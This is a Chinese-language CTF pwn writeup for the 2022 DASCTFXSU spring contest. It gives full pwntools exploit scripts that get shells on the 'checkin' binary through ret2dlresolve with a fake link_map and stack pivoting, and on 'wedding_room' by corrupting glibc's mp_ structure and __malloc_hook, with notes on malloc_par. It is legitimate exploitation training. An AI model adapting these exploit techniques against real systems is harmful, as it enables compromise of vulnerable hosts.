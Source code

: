 ```yaml
---
title: 2022 DASCTFXSU三月春季挑战赛 pwn Writeup
date: 2022-04-20 22:46:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=12/
pin: false
published:
---
```

## checkin(ret2dl)

这道题在[ret2dl利用总结](https://blog.e4l4.com/posts/ret2dl总结/)这篇文章里做了详细分析，这里贴一下2种EXP

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./checkin')
elf = ELF('./checkin')
libc = elf.libc

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rop_addr = 0x404000 + 0x700
pop_rdi_ret = 0x401253
leave_ret= 0x4011e2
main_read = 0x4011bf

def create_fake_link_map_1(fake_addr, known_got, reloc_index, offset):
	target = fake_addr - 8 #the result you write in (any addr)
	fake_link_map = p64(offset & (2**64-1)) #l_addr
	fake_link_map = fake_link_map.ljust(0x30, b'\x00')
	fake_jmprel = p64(target-offset) #r_offset
	fake_jmprel += p64(7) #r_info
	fake_jmprel += p64(0) #r_append
	fake_link_map += fake_jmprel
	fake_link_map += b"/bin/sh\x00"
	fake_link_map = fake_link_map.ljust(0x58, b'\x00')
	return fake_link_map
def create_fake_link_map_2(fake_addr, known_got, reloc_index, offset):
	fake_link_map = p64(0) + p64(leave_ret)
	fake_link_map += p64(fake_addr) #l_info[5] dynstr
	fake_link_map += p64(fake_addr+0x78-8) #l_info[6] dynsym
	fake_link_map += p64(known_got-8) #dynmic symtabg
	fake_link_map += p64(fake_addr+0x30-0x18*reloc_index) #dynmic jmprel
	fake_link_map += b'\x00'*0x70
	return fake_link_map

fake_reloc_arg = 0 # just as one wishes
fake_link_map_addr = rop_addr + 0x48
fake_link_map_1 = create_fake_link_map_1(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])
fake_link_map_2 = create_fake_link_map_2(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])

# 栈迁移
payload= b'\x00'*0xa0 + p64(rop_addr+0xa0) + p64(main_read)
p.send(payload)

payload = p64(pop_rdi_ret) + p64(fake_link_map_addr+0x48)
payload += p64(plt0+6) + p64(fake_link_map_addr) + p64(fake_reloc_arg) +p64(0)*4 + fake_link_map_1
payload += p64(rop_addr+0xa0*2) + p64(main_read)# 0xb0
p.send(payload)

payload = fake_link_map_2 + p64(rop_addr+0xa0*3) + p64(main_read)# 0xb0
p.send(payload)

payload = p64(fake_link_map_addr+0x80-8) + p64(leave_ret) #l_info[23] jmprel
payload = payload.ljust(0xa0, b'\x00')
payload += p64(rop_addr - 0x8) + p64(leave_ret)
p.send(payload)
p.interactive()
```



```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = process("./checkin")
elf =ELF('./checkin')
libc = elf.libc

# gdb.attach(p)
payload = b"a"*0xa0 + p64(0x4040c0+0xa0) + p64(0x4011BF)  #buf = 0x4040c0
p.send(payload)

payload = flat([  #csu
    0x404140,    #no use
    0x40124A,  # pop 6
    0,1,      #rbx rbp
    0x404040, # stdout  r12
    0,0,    # r13 r14
    0x404020,  #r15 setvbuf_got
    0x401230,  # ret 
    0,0,   #+8 rbx
    0x404140, #rbp
    0,0,0,0, #12 13 14 15
    0x4011BF #read = put
    ])
payload = payload.ljust(0xa0,b"\x00") + p64(0x404020+0xa0) + p64(0x4011bf) #read 
p.send(payload)
sleep(0.1)

p.send(b"\x50\xc4")
sleep(0.1)
libc_base = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,"\x00")) -0x1ed6a0

success("libc_base:"+hex(libc_base))

p.send(b"a"*0xa0 +p64(libc_base+0xe3b2e)*2 ) 

p.interactive()
```


## wedding_room(mmap申请堆越界修改)

题目没有free，只有一个add和edit，主要利用申请大小无限制

![image-20220403111614976](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111614976.png)

![image-20220403111647256](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111647256.png)

泄露libc后，思路是去改mp使tcache引索越界，任意申请需要的堆。mp_+80一开始为0x40

![image-20220403110847336](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403110847336.png)

关于mp\_结构体，glibc的参数管理使用 struct malloc_par，全局拥有一个唯一的 malloc_par实例

```c
struct malloc_par
{
  /* Tunable parameters */
  unsigned long trim_threshold;    /* top chunk 的收缩阈值 */
  INTERNAL_SIZE_T top_pad;         /* 在分配内存时是否添加额外的 pad，默认该字段为 0 */
  INTERNAL_SIZE_T mmap_threshold;  /*  mmap 分配阈值 */
  INTERNAL_SIZE_T arena_test;      /* 当每个进程的分配区数量小于等于 arena_test 时，不会重用已有的分配区 */
  INTERNAL_SIZE_T arena_max;       /* 当系统中的分配区数量达到 arena_max，就不会再创建新的分配区，只会重用已有的分配区 */

  /* Memory map support */
  int n_mmaps;                     /* 当前进程使用 mmap()函数分配的内存块的个数 */
  int n_mmaps_max;                 /* mmap()函数分配的内存块的最大数量 */
  int max_n_mmaps;                 /* mmap()函数分配的内存块的数量的最大值 */
  /* the mmap_threshold is dynamic, until the user sets
     it manually, at which point we need to disable any
     dynamic behavior. */
  int no_dyn_threshold;            /* 否开启 mmap 分配阈值动态调整机制，默认值为 0，即开启 */

  /* Statistics */
  /* mmapped_mem 和 max_mmapped_mem 都用于统计 mmap 分配的内存大小，一般情况下两个字段的值相等 */
  INTERNAL_SIZE_T mmapped_mem;    
  INTERNAL_SIZE_T max_mmapped_mem;

  /* First address handed out by MORECORE/sbrk.  */
  char *sbrk_base;                  /* 堆的起始地址 */

#if USE_TCACHE
  /* Maximum number of buckets to use.  */
  size_t tcache_bins;              /* tcache bins 的数量 */
  size_t tcache_max_bytes;         /* 最大 tache 的大小 */
  /* Maximum number of chunks in each bucket.  */
  size_t tcache_count;             /* 每个 tcache bins 中tcaches 的最大数量 */
  /* Maximum number of chunks to remove from the unsorted list, which
     aren't used to prefill the cache.  */
  size_t tcache_unsorted_limit;
#endif
};
```
这里关于offsetidx的计算纠结了很久，方法就是（目标地址后三位-0x80）/8，再向前移动一位就行

这里(0xab0-0x80)/8=146 即0x1460，所以我们申请0x1450，然后再去布置好counts位

![image-20220403145939733](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403145939733.png)

![image-20220403150002719](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403150002719.png)

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./wedding_room')
libc = ELF('./libc-2.31.so')

def add(size, length):
    p.sendlineafter(">> \n", '1')
    p.sendlineafter(">> \n", str(size))
    p.sendlineafter(">> \n", str(length))
def edit(index, content):
    p.sendlineafter(">> \n", '2')
    p.sendlineafter(">> \n", str(index))
    p.sendafter(">> \n", content)
def dbg():
    gdb.attach(p)
    pause()

# 修改stdout->write_ptr指针，让它比write_end小这样就能从end开始泄露
add(0x200000, 0x3ee6b8)
libc.address = u64(p.recvuntil("\x7f", timeout = 1)[-6:].ljust(8, b'\x00')) -0x1ee7e0
success("libc_base:\t" + hex(libc.address))
if (libc.address < 0):
    exit(-1)

# 修改mp结构体里的tcache bins的数量为1314
add(0x200000, 0x5ee2c0)

# 改topchunk大小，把oldtopchunk放入unsortbin，再申请一个largechunk
add(0x800, 0x809)
add(0x14000, 0x666) 
add(0x666, 0x666)
edit(4, p32(libc.sym['__malloc_hook'] & 0xffffff))#伪造mallochook地址
add(0x1450, 0x666)# 申请mallochook
edit(5, p64(libc.address + 0xe3b31))#one_gadget
p.sendlineafter(">> \n", b'1')
p.sendlineafter(">> \n", b'0')
p.interactive()
```

## tcache_struct结构

0x250的tcache_struct和0x290的大致相同，区别在于counts段一个大小占一个字节

![image-20220409223332707](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220409223332707.png)

0x290的tcache_struct

![image-20220403180012397](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403180012397.png)

mp_的查找方法：

`p &mp_`